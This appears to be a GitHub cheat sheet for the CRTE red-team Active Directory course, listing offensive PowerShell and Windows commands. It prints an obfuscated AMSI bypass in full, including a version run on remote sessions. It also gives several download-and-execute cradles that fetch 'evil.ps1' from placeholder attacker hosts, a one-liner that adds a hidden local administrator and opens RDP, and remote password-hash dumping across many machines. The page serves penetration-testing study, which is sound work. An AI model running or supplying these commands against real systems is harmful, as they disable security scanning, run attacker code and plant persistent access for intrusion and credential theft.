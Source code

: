 # CRTE-Cheatsheet

# Summary
* [General](#General)
* [Local privilege escalation](Local-Privilege-Escalation.md)
* [Domain Enumeration](Domain-Enumeration.md) 
* [Lateral Movement](Lateral-Movement.md)
* [Powershell Evasion](PowerShell-Evasion.md)
* [Domain privilege escalation](Domain-Privilege-Escalation.md)
* [Domain Persistence](Domain-Persistence.md)

   
# General
#### Access C disk of a computer (check local admin)
```
ls \\<COMPUTERNAME>\c$
```

#### Use this parameter to not print errors powershell
```
-ErrorAction SilentlyContinue
```

#### Rename powershell windows
```
$host.ui.RawUI.WindowTitle = "<NAME>"
```

#### Save Credentials
```
$creds = get-credential

$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)
```

#### Find a specific file
```
Get-Childitem -Path C:\ -Force -Include <FILENAME OR WORD TO SEARCH> -Recurse -ErrorAction SilentlyContinue
```

#### Crackmapexec on windows
- Download cme https://github.com/byt3bl33d3r/CrackMapExec/releases/tag/v5.1.1dev
- Download latest version of python3.8 standalone (Windows embeddable package (64-bit)) https://www.python.org/downloads/windows/

```
add python to path variable:
$env:Path += ";c:\python"
$env:Path += ";c:\tools\python"

add the register key if error blablah\DemoDLL_RemoteProcess.vcxproj.filters
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem" /v LongPathsEnabled /t REG_DWORD /d 1 /f
```

## PSSession
#### Save pssession in variable
```
$sess = New-PSSession -Credential $creds -ComputerName <IP>
```

#### Run commands on machine
```
Invoke-Commannd -ScriptBlock {<COMMAND>} -Session $sess
```

#### Run commands on multiple machines
```
Invoke-Command –Scriptblock {<COMMAND>} -ComputerName (Get-Content computers.txt)
```

#### Load script on machine
```
Invoke-Commannd -Filepath <PATH TO SCRIPT> -Session $sess
```

#### Execute script on multiple machines
```
Invoke-Command –FilePath script.ps1 -ComputerName (Get-Content computers.txt)
```

#### Execute locally loaded function on remote machines:
```
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content computers.txt)
```

#### Copy item through PSSession
```
Copy-Item -ToSession $sess -Path <PATH> -Destination <DEST> -verbose
```

#### AMSI Bypass
- https://amsi.fail/
- Then obfuscate with https://github.com/danielbohannon/Invoke-Obfuscation
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

#### Download and execute cradle
- Usefull tool: https://github.com/danielbohannon/Invoke-CradleCrafter
```
iex (New-Object Net.WebClient).DownloadString('https://xx.xx.xx.xx/payload.ps1')

$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://xx.xx.xx.xx/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

#PSv3 onwards

iex (iwr 'http://xx.xx.xx.xx/evil.ps1')

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://xx.xx.xx.xx/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://xx.xx.xx.xx/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

### Add user to local admin and RDP group and enable RDP on firewall
```
net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
